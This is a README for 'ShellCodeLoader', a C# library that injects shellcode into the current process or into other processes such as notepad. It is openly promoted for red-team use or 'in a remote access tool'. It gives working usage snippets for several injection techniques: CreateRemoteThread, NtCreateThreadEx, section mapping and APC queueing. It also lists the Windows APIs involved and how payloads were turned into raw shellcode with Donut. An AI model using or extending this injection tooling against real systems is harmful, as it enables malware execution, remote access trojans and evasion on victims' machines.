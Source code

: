 # ShellCodeLoader
A small shellcode loader library written in C#.
<br>
This small library allows you to inject shellcode in memory of current launched file or any other processes using different techniques.
Useful to use as red team or in a remote access tool. Works for 32 & 64 bit shellcode.

Note : 
* has been tested on same process and notepad as target

I added some test payloads which I've converted with 
* First with : Donut (https://github.com/TheWover/donut) : turns my payload into raw shellcode
* Second with HxD Editor (https://mh-nexus.de/en/downloads.php?product=HxD20) : gives me an array of raw bytes from payloads converted with Donut

How to use it ?

For same process:

```
ShellCodeLoader.ShellCodeLoader cpp = new ShellCodeLoader.ShellCodeLoader(PayloadCpp64.rawData);
cpp.LoadWithKernel32();//can be LoadWithNTDelegates , LoadWithKernel32Delegates or LoadWithNT
cpp.Dispose();
```
For other processes:

```
Process Target = Process.GetProcessesByName("notepad")[0];
ShellCodeLoader.ShellCodeLoaderEx cpp = new ShellCodeLoader.ShellCodeLoaderEx(Target, PayloadCpp64.rawData);
cpp.LoadWithKernel32();//or cpp.LoadWithNT();
cpp.Dispose();
```

MapView:

```
ShellCodeLoader.MapView cpp = new ShellCodeLoader.MapView(PayloadCpp64.rawData);
cpp.LoadWithNtMapView();
cpp.Dispose();
```

MapView with target:

```
ShellCodeLoader.MapView cpp = new ShellCodeLoader.MapView(Target, PayloadCpp64.rawData);
cpp.LoadWithNtMapView();
cpp.Dispose();
```

QueueAPC:

```
ShellCodeLoader.QueueAPC cpp = new ShellCodeLoader.QueueAPC(PayloadCpp64.rawData);
cpp.LoadWithQueueAPC();
cpp.Dispose();
```

Minimal API:

```
ShellCodeLoader.ShellCodeLoaderMinimalNativeAPI cpp = new ShellCodeLoader.ShellCodeLoaderMinimalNativeAPI(PayloadCpp64.rawData);
cpp.Asynchronous = true;//  false otherwise
cpp.LoadWithMinimalAPI();
cpp.Dispose();
```

Includes : 

* Asynchronous (a simple Task.Run to not block main thread)
* Loading with Kernel32
* Loading with NtDll
* NtDll : NtAllocateVirtualMemory
* NtDll : NtWriteVirtualMemory
* NtDll : NtProtectVirtualMemory
* NtDll : NtFreeVirtualMemory
* NtDll : NtCreateThreadEx
* NtDll : NtCreateSection
* NtDll : NtMapViewOfSection
* NtDll : NtTestAlert
* Kernel32 : GetCurrentProcess
* Kernel32 : VirtualAlloc
* Kernel32 : VirtualAllocEx
* Kernel32 : VirtualFree
* Kernel32 : VirtualProtect
* Kernel32 : VirtualProtectEx
* Kernel32 : WriteProcessMemory
* Kernel32 : CreateRemoteThread
* Kernel32 : GetModuleHandle
* Kernel32 : GetProcAddress
* Kernel32 : QueueUserAPC
* Kernel32 : SleepEx
* Enumeration : PageProtection
* Enumeration : TypeAlloc
* Enumeration: FreeType
* Enumeration : SectionAccess
* Enumeration : MappingAttributes
* Delegates : all functions have been written with delegate style except GetModuleHandle and GetProcAddress

TODO :
* <s>Inject shellcode in another process with VirtualEx and NtEx functions</s>
* Check if shellcode is 64 or 32 bit before injection
* Check if dll (kernel32, ntdll) have been loaded

Known : 
* Debugging 32 bit test injection involves PInvokeStackImbalance
